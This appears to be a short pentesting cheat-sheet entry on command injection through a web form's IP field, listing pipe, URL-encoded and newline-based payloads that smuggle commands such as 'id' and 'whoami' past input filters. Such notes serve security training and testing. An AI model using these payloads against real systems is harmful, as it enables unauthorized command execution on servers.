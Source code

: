 # [22. BurpSuite](/burpsuite.md)


# IP Input Field
```sh
ip=127.0.0.1|id
##web server probably filtered out  Likely filtering special characters like `|`, `;`, etc.

##Encoding 
%7C%20id

##Smart Bypass Using Newline Payload:
%0a whoami        #%0a is the URL-encoded value for a newline character (\n).
127.0.0.1%0awhoami

#It becomes:
ping 127.0.0.1
whoami
```

